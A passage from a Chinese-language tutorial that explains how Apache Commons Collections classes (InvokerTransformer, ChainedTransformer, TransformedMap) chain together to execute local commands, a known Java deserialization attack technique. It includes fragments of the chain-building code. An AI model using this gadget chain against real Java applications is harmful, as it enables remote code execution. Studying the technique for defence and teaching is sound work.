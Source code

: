             // 创建ChainedTransformer调用链对象
            Transformer transformedChain = new ChainedTransformer(transformers);

            // 执行对象转换操作
            Object transform = transformedChain.transform(null);

            System.out.println(transform);
        }

    }
    ```
    运行结果如下：
    ![alt text](img/11.png)

#### 利用InvokerTransformer执行本地命令

现在我们已经使用`InvokerTransformer`创建了一个含有恶意调用链的Transformer类的Map对象，紧接着我们应该思考如何才能够将调用链串起来并执行。

`org.apache.commons.collections.map.TransformedMap`类间接的实现了`java.util.Map`接口，同时支持对Map的key或者value进行Transformer转换，调用`decorate`和`decorateTransform`方法就可以创建一个`TransformedMap`:

```java title="org.apache.commons.collections.map.TransformedMap"
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
      return new TransformedMap(map, keyTransformer, valueTransformer);
}

public static Map decorateTransform(Map map, Transformer keyTransformer, Transformer valueTransformer) {
      ...
}
```
